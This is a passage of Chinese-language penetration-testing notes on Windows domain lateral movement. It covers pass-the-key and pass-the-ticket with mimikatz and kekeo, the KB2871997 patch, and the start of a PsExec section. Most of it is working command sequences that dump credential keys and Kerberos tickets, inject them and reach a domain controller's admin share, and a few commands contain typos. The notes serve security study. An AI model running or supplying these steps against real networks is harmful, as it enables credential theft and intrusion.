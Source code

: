 	//查看DC的共享文件夹
	dir \\dc\c$
	```
	+ 使用AES-256密钥进行哈系传递(pass the key)
	> 远程系统需安装KB2871997补丁
	```cmd
	//使用mimikatz抓取AES-256密钥
	privilege::debug
	sekurlsa::ekeys
	//导入
	privilege::debug
	sekurlsa::pth /user:用户名 /domain:域名 /aes256:AES256密钥
	//查看DC的共享文件夹
	dir \\dc\c$
	```
### 5.3.3 更新KB2871997补丁产生的影响
> 2014年5月发布的KB2871997,该补丁禁止通过本地管理员权限与远程计算机进行连接,其后果就是无法通过本地管理员权限对远程计算机使用psexec,wmi,smbexec,schtasks.at,也无法访问远程主机的文件共享等
> KB2871997无法使用常规的哈希传递方法进行横向移动,但是administrato(SID为500)例外
## 5.4 票据传递攻击分析与防范
> 票据传递 - pass the ticket  - PTT
> dir命令时,使用主机名,如果使用IP地址,会导致错误
> 票据文件注入内存的默认有效时间为10小时
> 在目标机器上不需要本地管理员权限即可进行票据传递
> mimikatz提供的不需要本地管理员权限的横向渗透测试方法
### 5.4.1 使用mimikatz进行票据传递
```cmd
//将内存中的票据导出,会在当前目录下出多个服务票据文件,如krbtgt,cifs,ldap等
mimikatz "privilege::debug" "sekurlsa::tickets /export"
//清理内存中的票据
kerberos::purge
//将票据文件注入内存(就是三个双引号)
mimikatz "kerberos::ptt "票据文件"
//列出远程计算机文件目录
dir \\dc\c$
```
### 5.4.2 使用kekeo进行票据传递
+ kekeo
https://github.com/gentilkiwi/kekeo
```cmd
//在目标机器中运行kekeo,会在当前目录下生成一个票据文件
kekeo "tgt::ask /user:用户名 /domain:域名 /ntlm:NTLMHash"
//清除当前内存中的其他票据
kerkeros::purge
//使用winddows自带命令清除内存中的票价
klist purge
//使用kekeo将票据文件导入内存
kerkeros::ptt 票据文件
//导入完成后,推出kekeo
exit
//列出远程主机的文件
dir \\dc\c$
```
## 5.5 PsExec的使用
> syslnternals套件中的一款软件,windows出品
> 可以在windows vista/NT4.0/2000/XP/2003/2008/2012/2016上运行(32/64位)
### 5.5.1 PsTools工具包中的PsExec
+ 原理
通过管道在远程目标机器上创建一个psexec服务,并在本地磁盘中生成一个名为"PSEXESVC"的二进制文件,然后通过psexec服务运行命令,运行结束后删除服务